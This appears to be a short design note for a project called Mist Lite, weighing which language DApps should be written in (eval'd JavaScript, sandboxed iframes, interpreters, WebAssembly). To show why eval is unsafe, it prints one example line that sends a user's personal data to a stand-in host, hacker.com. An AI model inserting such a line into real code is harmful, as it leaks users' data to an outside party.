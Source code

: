 ## Mist Lite

## The language problem

"In what language should DApps be specified?"

- JavaScript, with `eval(...)`?

    1. Unsafe.

    ```javascript
    ... deeply inside a giantic js bundle ...
    fetch("http://hacker.com/" + window.myPersonalData);
    ```

- JavaScript, inside a sandboxed iFrame?

    1. How to avoid infinite loops?

    2. Hacky and awkward in general, a lot could go wrong.

    3. Could work, though; not discarded.

- JavaScript, interpreted?

    1. Slow.

    2. Shipping a complete interpreter on web version would be prohibitive.

    3. The [smallest](https://github.com/NeilFraser/JS-Interpreter) interpreter I know isn't complete.

- WebAssembly?

    1. Difficult to inspect, edit and audit.
    
        The calculus of constructions preserves the high-level logical structure of the program, allowing it to be translated to a high-level source code, which the user can inspect, edit and audit. WASM destroys such structure, forcing the user to see assembly-like code.

    2. Awkward FFI.
    
        For the same reason above, CoC can be compiled directly to native terms, allowing it to be used without encoding an ABI.

    3. Bigger bundles.

- Something else?

    1. What?
